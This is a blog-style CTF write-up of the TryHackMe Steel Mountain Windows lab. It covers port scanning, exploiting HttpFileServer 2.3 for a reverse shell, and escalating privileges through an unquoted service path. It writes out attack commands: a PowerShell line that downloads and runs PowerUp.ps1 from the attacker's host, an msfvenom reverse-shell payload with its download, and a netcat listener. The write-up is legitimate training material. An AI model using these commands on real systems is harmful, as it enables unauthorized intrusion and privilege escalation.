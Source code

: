 ```yaml
---
layout: single
title: SteelMountain - TryHackMe (OSCP STYLE)
excerpt: "On TryHackMe, the challenge of the Steel Mountain Machine is to be solved either through Metasploit or manually. This machine runs on Windows operating system. For this particular challenge, the manual approach will be followed to solve it."
date: 2023-04-14
classes: wide
header:
  teaser: /assets/images/steelmountain/portada.jpeg
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - Unquoted Service Path
  - HFS
---
```


## Introduccion

This is a write-up for the SteelMountain machine on the TryHackme platform. We tackled this pentesting exercise using the approach and methodology of OSCP.

## Enumeration

In this lab, we are dealing with a Windows machine.
For machine enumeration, we will scan all ports of the machine, request it to report back the open ports, and save all that information to a file to avoid making noise in case we need to refer back to it.
- -p-: Scans all ports
-	-oN nmap-initial-scan.txt: Saves output to a file named "nmap-initial-scan.txt"
-	-min-rate 5000: Specifies the minimum number of packets per second to be sent during the scan.
-	-T5: Sets the level of "aggressiveness" of the scan to 5, meaning that more intense and faster tests will be performed.
-	-Pn: Ignores checking whether the remote host is active and online.
-	-n: Disables DNS name resolution for IP addresses.

```sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.178.153 -oG allPorts```

![1]

Upon port scanning, it was identified that a web server is being served on ports 80 and 8080. This indicates the presence of HTTP services on the target machine. Navigating to those ports, the following web pages were discovered.

![2]

This web page is only useful to solve the first question of the lab. In this write-up, we will focus on compromising the machine.

![3]

On the second page, we discovered an HttpFileServer 2.3. Using the "searchsploit" command to look for the name of this file, we found a Python script that allows remote command execution. This search was made possible by the ExploitDb database, which lists this exploit with the number 49584.

![4]

The script first sets some variables, including the IP address and port of the attacker machine (lhost and lport), and the IP address and port of the victim machine (rhost and rport). It then defines a command to be executed on the victim machine in PowerShell, which sets up a TCP connection to the attacker machine and sends the output of any executed commands back to the attacker machine.

It encodes this command in base64 format and creates a payload that includes the encoded command, which is then URL-encoded and sent to the victim machine as part of an HTTP GET request. Once the payload is received by the victim machine and executed, a reverse shell connection is established and the attacker machine can interact with the victim machine.

Finally ends by printing some debugging information and listening for incoming connections on the specified port using the netcat utility.

To make this script work, we need to change the first 4 parameters.

![5]

After running the script, we received the reverse shell on our machine.

![6]

![7]

By obtaining a reverse shell on the target machine, we were able to retrieve the first flag.

![8]


## Privilege escalation

It is important to note that we gained access with a PowerShell session, so all syntax used must be in this interpreter.

We used the PowerUp.ps1 tool to enumerate potential privilege escalation vectors within the machine. At the end of the script, we should add "Invoke-AllChecks" to perform the scan.

The GitHub repository to download the tool is:[Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

We executed the script from our local machine using the Invoke-Expression tool, which means that the script was not downloaded or stored on the victim's machine.

```iex(New-Object Net.WebClient).downloadString('http://LIP:LPORT/PowerUp.ps1')```

We need to launch an HTTP server using Python, specifying the directory where the file mentioned above is located as the document root.

```sudo python3 -m http.server 8080```

![9]

The vulnerability detected by the tool is called "Unquoted Service Path".

![10]

The Unquoted Service Path vulnerability refers to an error in the way the path of a Windows service is specified in the registry. If the path contains spaces but is not enclosed in double quotes, the service may attempt to execute an unintended program or even a malicious backdoor. This vulnerability can be exploited if the user running the service has elevated privileges, allowing an attacker to escalate privileges to gain control over the system.

For example, let's say a Windows service is installed with a path of C:\Program Files\Example Service\service.exe. However, the service is registered in the registry without quotes around the path, like this:
HKLM\SYSTEM\CurrentControlSet\Services\ExampleService
ImagePath: C:\Program Files\Example Service\service.exe

If a user with administrative privileges attempts to start this service, Windows will search for the executable at the specified path. However, because the path contains spaces and is not enclosed in quotes, Windows will interpret the first space as a separator between the path and the first argument. In this case, Windows will attempt to execute C:\Program instead of C:\Program Files\Example Service\service.exe. If an attacker were to place a malicious file named C:\Program.exe on the system, Windows would execute that file instead of the intended service executable.
To exploit this vulnerability, an attacker could create a malicious file with a name like C:\Program.exe and place it on the system. When the vulnerable service is started, Windows would execute the malicious file instead of the intended executable, allowing the attacker to execute arbitrary code with elevated privileges.

To take advantage of the vulnerability on this machine, we will go to the path:

```C:\Program Files (x86)\IObit\```

This path is the first path where we can add an executable file due to user permissions.

Since we cannot access the C:\Program Files(x86) directory with our account privileges, we will place a vulnerable executable file named "Advanced.exe" generated with MSFVenom in this directory.

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe -o Advanced.exe```

We will use the Invoke-WebRequest tool from the target machine to request the file by sharing it from our machine to the target machine through the Python server.

```iwr -uri "http://AtackerIP:AtackerPort/Advanced.exe" -outfile "Advanced.exe```

![11]

Finally, we just need to stop and restart the service. When the service runs again, it will execute our script before the legitimate one, and it will call a listener that we have set up on our attacker machine as an administrator.

```stop-service AdvancedSystemCareService9
   start-service AdvancedSystemCareService9
   nc -lvnp AtackerPort
 ```
   

We receive the shell in the listener set up with netcat.

![12]

In conclusion, this CTF provided an opportunity to practice different hacking techniques and tools, including enumeration, vulnerability scanning, exploitation, and privilege escalation. We were able to compromise the target machine by exploiting known vulnerabilities and using social engineering tactics. This CTF also helped us improve our understanding of how attackers can gain unauthorized access to systems and the importance of implementing security best practices to protect against such attacks.


[1]:/assets/images/steelmountain/1.png
[2]:/assets/images/steelmountain/2.png
[3]:/assets/images/steelmountain/3.png
[4]:/assets/images/steelmountain/4.png
[5]:/assets/images/steelmountain/5.png
[6]:/assets/images/steelmountain/6.png
[7]:/assets/images/steelmountain/7.png
[8]:/assets/images/steelmountain/8.png
[9]:/assets/images/steelmountain/9.png
[10]:/assets/images/steelmountain/10.png
[11]:/assets/images/steelmountain/11.png
[12]:/assets/images/steelmountain/12.png
